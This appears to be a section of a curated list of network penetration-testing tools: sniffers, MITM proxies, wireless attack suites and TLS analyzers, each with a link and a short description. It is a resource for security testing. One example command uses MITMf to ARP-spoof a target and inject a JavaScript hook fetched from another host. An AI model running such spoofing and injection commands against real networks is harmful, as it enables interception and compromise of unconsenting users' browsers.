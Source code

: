 #### Protocol Analyzers and Sniffers
  * [tcpdump/libpcap](http://www.tcpdump.org/) - Common packet analyzer that runs under the command line.
  * [Wireshark](https://www.wireshark.org/) - Widely-used graphical, cross-platform network protocol analyzer.
  * [Yersinia](https://tools.kali.org/vulnerability-analysis/yersinia) - Packet and protocol analyzer with MITM capability.
  * [Fiddler](https://www.telerik.com/fiddler) - Cross platform packet capturing tool for capturing HTTP/HTTPS traffic.
  * [netsniff-ng](https://github.com/netsniff-ng/netsniff-ng) - Swiss army knife for Linux network sniffing.
  * [Dshell](https://github.com/USArmyResearchLab/Dshell) - Network forensic analysis framework.
  * [Chaosreader](http://chaosreader.sourceforge.net/) - Universal TCP/UDP snarfing tool that dumps session data from various protocols.

#### Proxies and MITM Tools
  * [Responder](https://github.com/SpiderLabs/Responder) - Open source NBT-NS, LLMNR, and MDNS poisoner.
  * [Responder-Windows](https://github.com/lgandx/Responder-Windows) - Windows version of the above NBT-NS/LLMNR/MDNS poisoner.
  * [MITMf](https://github.com/byt3bl33d3r/MITMf) - Multipurpose man-in-the-middle framework.
    - e.g. `mitmf --arp --spoof -i eth0 --gateway 192.168.1.1 --targets 192.168.1.20 --inject --js-url http://192.168.1.137:3000/hook.js`
  * [dnschef](https://github.com/iphelix/dnschef) - Highly configurable DNS proxy for pentesters.
  * [mitmproxy](https://github.com/mitmproxy/mitmproxy) - Interactive TLS-capable intercepting HTTP proxy for penetration testers and software developers.
  * [Morpheus](https://github.com/r00t-3xp10it/morpheus) - Automated ettercap TCP/IP Hijacking tool.
  * [SSH MITM](https://github.com/jtesta/ssh-mitm) - Intercept SSH connections with a proxy; all plaintext passwords and sessions are logged to disk.
  * [evilgrade](https://github.com/infobyte/evilgrade) - Modular framework to take advantage of poor upgrade implementations by injecting fake updates.
  * [Ettercap](http://www.ettercap-project.org) - Comprehensive, mature suite for machine-in-the-middle attacks.
  * [BetterCAP](https://www.bettercap.org/) - Modular, portable and easily extensible MITM framework.

#### Wireless Network Tools
  * [Aircrack-ng](http://www.aircrack-ng.org/) - Set of tools for auditing wireless networks.
  * [WiFi Pumpkin](https://github.com/P0cL4bs/WiFi-Pumpkin) - All in one Wi-Fi exploitation and spoofing utility.
  * [MANA Toolkit](https://github.com/sensepost/mana) - Rogue AP and man-in-the-middle utility.
  * [Wifite](https://github.com/derv82/wifite) - Automated wireless attack tool.
  * [Fluxion](https://github.com/FluxionNetwork/fluxion) - Suite of automated social engineering based WPA attacks.
  * [NetStumbler](http://www.netstumbler.com/downloads/) - WLAN scanning tool.
  * [Kismet](https://www.patreon.com/kismetwireless) - Wireless network discovery tool.

#### Transport Layer Security Tools
  * [tlssled](https://tools.kali.org/information-gathering/tlssled) - Comprehensive TLS/SSL testing suite.
  * [SSLscan](https://github.com/rbsec/sslscan) - Quick command line SSL/TLS analyzer.
  * [SSLyze](https://github.com/nabla-c0d3/sslyze) - Fast and comprehensive TLS/SSL configuration analyzer to help identify security mis-configurations.
  * [SSL Labs](https://www.ssllabs.com/ssltest/) - Online TLS/SSL testing suite for revealing supported TLS/SSL versions and ciphers.
  * [crackpkcs12](https://github.com/crackpkcs12/crackpkcs12) - Multithreaded program to crack PKCS#12 files (`.p12` and `.pfx` extensions), such as TLS/SSL certificates.
  * [spoodle](https://github.com/avicoder/spoodle) - Mass subdomain + POODLE vulnerability scanner.

